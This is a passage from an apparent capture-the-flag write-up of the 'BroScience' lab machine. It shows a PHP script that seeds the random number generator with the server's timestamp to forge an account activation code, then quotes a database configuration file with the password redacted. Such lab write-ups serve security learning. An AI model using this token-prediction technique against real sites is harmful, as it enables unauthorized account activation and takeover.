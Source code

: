 ```http
HTTP/1.1 200 OK
Date: Tue, 31 Jan 2023 00:40:12 GMT
Server: Apache/2.4.54 (Debian)
...
```

I used that time to generate a token and activate my account.

```php
<?php
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
$time = strtotime('Tue, 31 Jan 2023 00:40:12 GMT');
srand($time);
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
    $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
echo 'https://broscience.htb/activate.php?code=' . $activation_code . "\n";
```

I ran the script and used the generated link

```bash
$ php generateCode.php
https://broscience.htb/activate.php?code=OqxSuRjhkh02FEDHXHtPeTLu5PJ8z2fo
```

![Account Activated](/assets/images/2023/04/BroScience/AccountActivated.png "Account Activated")

## Remote Code Execution

I logged into the site with my activated user. I looked around, I could modify my account and add comments under exercises. I tried sending XSS and SSTI payloads, but it did not work.

I kept looking at the source code. The file `db_connect.php` contained database credentials. 

```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "REDACTED";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```
